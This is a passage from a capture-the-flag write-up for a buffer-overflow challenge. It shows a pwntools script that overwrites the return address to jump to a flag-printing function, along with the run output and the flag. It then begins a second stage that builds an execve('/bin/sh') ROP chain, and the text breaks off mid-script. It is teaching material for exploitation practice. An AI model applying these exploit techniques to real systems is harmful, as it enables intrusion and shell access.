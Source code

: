 ```python
    else:
        r = remote("XXX.XXX.XXX.XXX", 00000)

    return r

def main():
    r = conn()

    # Jump into magie, right where the function prints the flag
    offset = 56
    r.sendline(flat({offset: p64(0x4018da)}))

    print(r.recvall().decode(errors='ignore'))
    r.close()

if __name__ == "__main__":
    main()
```

```bash
$ python solve_basic.py LOCAL
[*] '/home/vivescere/ctf/bof_1/service'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/vivescere/ctf/bof_1/service': pid 650148
[+] Receiving all data: Done (116B)
[*] Process '/home/vivescere/ctf/bof_1/service' stopped with exit code -7 (SIGBUS) (pid 650148)
hello who are you?
Hello aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaa\x18
CYBERTF{_____________________}
```

The flag was `CYBERTF{B@sic_Buff3r_Ov3rflow}`.

## Level 2: GetShell

Our goal is now to pop a shell. We still have the NX bit on, so we could try using a ropchain. Since the CTF was short, I first tried to automatically generate one using `ropper`:

```bash
$ ropper --file service --chain "execve cmd=/bin/sh"
...
```

The command worked, so I just plugged it into my previous script:

```python
#!/usr/bin/env python3
from pwn import *
from struct import pack

exe = ELF("./service")

context.binary = exe
context.terminal = ['konsole', '-e']

def gen_rop():
    p = lambda x : pack('Q', x)

    IMAGE_BASE_0 = 0x0000000000400000 # aae3c9732e164e7d4d0643ec3d3d8bd1f2a571dcb933e57afd11939c43984473
    rebase_0 = lambda x : p(x + IMAGE_BASE_0)

```